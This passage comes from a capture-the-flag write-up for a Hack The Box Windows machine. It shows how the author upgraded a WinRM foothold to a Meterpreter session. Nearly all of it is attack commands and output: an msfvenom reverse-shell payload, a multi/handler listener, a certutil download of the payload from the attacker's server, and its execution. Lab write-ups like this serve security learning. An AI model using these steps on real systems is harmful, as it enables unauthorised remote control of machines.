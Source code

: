 # root.txt (2)

So apparently there was another or more "proper" way to solving this box by using a very certain process. But first, lets upgrade to a meterpreter shell.

To do so, we will first need to create our executable which will establish the reverse connection back to our listener. After that, move the executable into the directory that the `SimpleHTTPServer` is running from.
{% highlight bash %}
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.XXX.XXX LPORT=1337 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
{% endhighlight %}

And we start our listener on port 1337...
{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf5 exploit(multi/handler) > set LHOST 10.10.XXX.XXX
LHOST => 10.10.14.61
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.XXX.XXX:1337
{% endhighlight %}

Back to our `WinRM` shell, we retrieve the executable from our `SimpleHTTPServer` using `certutil.exe` and run it.
{% highlight bash %}
PS supportdesk\chase@SUPPORTDESK Chase> certutil.exe -urlcache -split -f http://10.10.XXX.XXX/shell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
PS supportdesk\chase@SUPPORTDESK Documents> cmd.exe /k shell.exe
{% endhighlight %}

Back on our listener, we obtained a meterpreter shell.
{% highlight bash %}
[*] Sending stage (179779 bytes) to 10.10.10.149
[*] Meterpreter session 1 opened (10.10.XXX.XXX:1337 -> 10.10.10.149:49694) at 2019-08-31 09:04:09 -0400

meterpreter >
{% endhighlight %}
